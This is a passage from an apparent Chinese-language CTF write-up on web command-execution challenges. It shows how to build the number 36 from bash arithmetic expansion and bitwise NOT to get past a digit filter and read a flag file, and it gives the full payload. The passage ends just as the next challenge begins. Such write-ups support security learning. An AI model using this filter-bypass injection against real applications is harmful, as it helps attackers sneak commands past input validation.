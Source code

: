 这里过滤了数字，但是web55的方法一还是可以用的，但不知道为什么这题加上shebang行我执行不了，得去掉才行



#### web57

![image-20250209223343965](assets/image-20250209223343965.png)

题目说`flag in 36.php`，即只需构造出36即可，题目给我们留下了`$`符号，表示可以使用变量

```
 在linux中
$(())=0
~$(())=-0
$((~$(())))=-1
$((~$(())))$((~$(())))=-1-1
$(($((~$(())))$((~$(())))))=-2
$((~$(($((~$(())))$((~$(())))))))=1
这里也可以用加号直接加
```

如此将多个-1相加到-37再加一层`$(())`取反即可构造出36

payload：

```
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

注意：这里cat得到的flag藏在源码中



#### web118

这题不同于前面的题，打开URL是一个输入框，而不是之前那种给源码的，随便输入一些东西执行显示`evil input`
